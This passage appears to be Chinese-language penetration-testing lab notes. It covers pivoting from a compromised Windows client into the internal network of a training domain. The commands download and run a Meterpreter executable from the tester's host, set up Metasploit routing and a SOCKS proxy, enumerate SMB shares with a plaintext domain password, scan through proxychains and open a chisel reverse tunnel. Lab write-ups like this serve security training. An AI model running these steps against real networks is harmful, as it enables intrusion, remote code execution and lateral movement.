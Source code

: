 CLIENTWK1上

```armasm
iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe
.\met.exe
```

代理

```armasm
use multi/manage/autoroute
set session 1
run
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

```armasm
cat /etc/proxychains4.conf
...
socks5  127.0.0.1 1080
```

枚举共享，没有有用信息

```armasm
proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares
```

nmap扫描

```armasm
sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 21,80,443 172.16.6.240 172.16.6.241 172.16.6.254
```

使用chisel做代理更加稳定

```armasm
chmod a+x chisel
./chisel server -p 8080 --reverse
```

```armasm
sessions -i 1
upload chisel.exe C:\\Users\\marcus\\chisel.exe
chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80
```

kali访问http://127.0.0.1/wordpress/wp-admin，报错，改hosts

```armasm
cat /etc/hosts                     
127.0.0.1       localhost
127.0.1.1       kali
...
127.0.0.1    internalsrv1.beyond.com
```
